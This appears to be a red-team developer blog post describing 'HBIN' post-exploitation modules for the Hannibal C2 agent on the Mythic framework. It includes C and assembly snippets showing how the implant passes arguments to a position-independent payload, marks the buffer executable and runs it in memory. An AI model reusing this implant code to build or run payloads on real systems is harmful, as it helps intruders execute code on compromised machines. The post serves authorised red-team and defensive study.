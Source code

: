 ```yaml
---
title: Making Mini Monsters
date: 2024-11-16 09:09:09 +/-TTTT
categories: [SECURITY, REDTEAM, MALDEV]
tags: [mythic, hannibal, maldev, c2, c, pic, position independent, bof, hbin]     # TAG names should always be lowercase
description: Discussing a COFF alternative.
---
```



![hannibal_logo](/assets/img/hannibal_logo_pink.png)


## Introduction

In this article we explore one of the post-ex capabilities of the [Hannibal](https://github.com/silentwarble/Hannibal) agent, the "HBIN".

## The HBIN

### What

Simply put, it is a stripped down version of the Hannibal agent which itself is built on the [Stardust](https://github.com/Cracked5pider/Stardust) template. See [Making Monsters](/posts/making-monsters-1).

### Why

All the same reasons for why operators make use of BOF files for post-ex apply here. This serves the same purpose but is a different format. It was built as it avoided me having to implement a COFF parser into Hannibal. I may still do so at a later date, but I like how these turned out.

### How

We will use a stripped down version of Hannibal and treat it like a BOF file. Mythic has the ability to show a modal to the user and accept a BOF file plus the args. So we'll just use that for the controller side to get it to our agent.

Mythic will serialize the arguments and send all of it to the agent. Look at **mythic/agent_functions/execute_hbins.py** for the Mythic side. Once within hannibal, it is sent to **src/cmd_execute_hbin.c**.

#### Passing Args Challenge

Ok we have the hbin and the args passed all the way to our agent. 

An initial challenge was how was I going to pass arguments into the hbin? We aren't parsing a function export [go](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/beacon-object-files_how-to-develop.htm) like Cobalt Strike BOFs use.

The Stardust template Hannibal is built on includes a stub written in asm. With a function within that I am able to retrieve the address of the start of the agent. That address is accessible and usable within the agent. In fact it is heavily used to locate offsets.

I quickly realized it would be easy to just get that address and then subtract the size of a pointer (8 bytes) to go backwards in memory. What if I just stored a pointer to a struct before the start of the hbin? I could get the start of the agent, go backwards 8 bytes, and then deref to get a struct containing any arg I want.

#### Prep Arg Passing

Now that we have an idea of how to pass args into the hbin, lets look at how it was implemented.

Taking a look at the beginning of the function we see us craft a struct that will contain:

- Buffer of the serialized args
- Size of the arg buffer
- Pointer to Hannibal instance
- UUID of the execute_hbin task for Mythic

```c
typedef struct _HBIN_IN {
    LPVOID args;
    int arg_size;
    LPVOID hannibal_instance;
    char *controller_uuid;
} HBIN_IN;

HBIN_IN *in = (HBIN_IN *)hannibal_instance_ptr->Win32.VirtualAlloc(
    NULL, 
    sizeof(HBIN_IN *), 
    MEM_COMMIT, 
    PAGE_READWRITE
);

in->args = exec_hbin->args;
in->arg_size = exec_hbin->arg_size;
in->hannibal_instance = hannibal_instance_ptr;
in->controller_uuid = t.task_uuid;
```

Next we allocate a buffer large enough to hold the size of a pointer address of that struct plus the hbin binary itself.

```c
size_t buffer_size = sizeof(HBIN_IN*) + exec_hbin->hbin_size;

UINT8 *hbin_buff = (UINT8 *)hannibal_instance_ptr->Win32.VirtualAlloc(
    NULL, 
    buffer_size, 
    MEM_COMMIT, 
    PAGE_READWRITE
);
```

We copy the address to the struct holding pointers to the args and instance into that buffer first. We then append the actual hbin after that address.

```c
if(hbin_buff != NULL){
    pic_memcpy(hbin_buff, &in, sizeof(HBIN_IN*));
    pic_memcpy(hbin_buff + sizeof(HBIN_IN*), exec_hbin->hbin, exec_hbin->hbin_size);
}
```

At this point, the buffer looks like this in memory:

```
| 8 Bytes | sizeof(hbin) Bytes
| Address of HBIN_IN Struct | HBIN Bytes
```

#### Execute

We can now mark that buffer executable, set the execution pointer past the struct address, and execute.
```
DWORD OldProtection  = 0;
hannibal_instance_ptr->Win32.VirtualProtect( hbin_buff, buffer_size, PAGE_EXECUTE_READ, &OldProtection );

UINT_PTR exec = (UINT_PTR)hbin_buff + sizeof(HBIN_IN*);

typedef void (*exec_func)(); 
exec_func hbin_exec = (exec_func)exec;
hbin_exec();
```

#### Inside the HBIN

In order to retrieve the address of the struct that contains all the pointers we need, I added an additional command to the stub.

```asm
GetInStruct:
    call StRipStart ;; Get start of agent       
    sub rax, 8      ;; Go backwards 8 bytes
    ret             ;; Return a ptr to a ptr to the input struct

```

Now at our main function I can simply call this function which gives me the address of 8 bytes before the start of our hbin. So it is a ptr > ptr > struct. After a cast and deref, we now have a pointer we can use.

```c
EXTERN_C SECTION_CODE VOID hbin_main(
    _In_ PVOID Param
) {

    PVOID base = StRipStart();
    PVOID in_struct = GetInStruct();

    HBIN_IN *in = *(HBIN_IN **)in_struct;
    LPVOID arg_buff = in->args;
    int arg_buff_size = in->arg_size;

    PINSTANCE hannibal_instance_ptr = in->hannibal_instance;
```

From this point on it's effectively the same as everything else with Hannibal. We can use anything in the instance struct. I need to test this but I think I could also store the address of functions compiled into the Hannibal agent. That would enable me to reduce even more what gets compiled into the hbins and reduce the size.

## The HBIN Template

Other than removing everything but the bare essentials, hbins only have a few differences from the primary Hannibal agent. They are:

**asm/x64/stub_wrapper.asm**

```c
EXTERN hbin_main

GLOBAL GetInStruct

GetInStruct:
    call StRipStart ;; Get start of agent       
    sub rax, 8      ;; Go backwards 8 bytes
    ret             ;; Return a ptr to a ptr to the input struct
```

**include/hannibal.h**

```c
// HBIN INPUT
typedef struct _HBIN_IN {
    LPVOID args;
    int arg_size;
    LPVOID hannibal_instance;
    char *controller_uuid;
} HBIN_IN;

EXTERN_C PVOID GetInStruct();

EXTERN_C VOID hbin_main(
    _In_ PVOID Param
);

#ifdef PIC_BUILD
#define HANNIBAL_INSTANCE_PTR PINSTANCE hannibal_instance_ptr = (*(HBIN_IN **)(GetInStruct()))->hannibal_instance;
#else
#define HANNIBAL_INSTANCE_PTR extern PINSTANCE hannibal_instance_ptr;
#endif
```

<blockquote class="prompt-warning">
    <p>
        Make sure the struct definitions match between what you compiled into the agent and the hbin. If HBIN_IN or the Instance struct don't match you will crash.
        Another caution is, for any win32 function you call, ensure both the dll was loaded and the function was resolved. Otherwise you'll access a null pointer and crash.
    </p>
</blockquote>



## Advantages and Drawbacks

Advantages
<blockquote class="prompt-tip">
  <p>
    <li>Full power of the agent. Can use anything stored in the instance struct.</li>
    <li>No Win32 function limits.</li>
    <li>No COFF parser needed.</li>
    <li>Porting open source BOFs fairly easy.</li>
</p>
</blockquote>

Drawbacks
<blockquote class="prompt-danger">
  <p>
    <li>Large amount of Open Source BOFs available for use, have to write these yourself.</li>
    <li>Easy to forget to propigate struct changes from Hannibal to your hbins.</li>
    <li>All the position independent limitations still exist.</li>
</p>
</blockquote>

## End Article

As always, should you have questions or have suggestions for a better approach, please submit a PR or DM me on socials.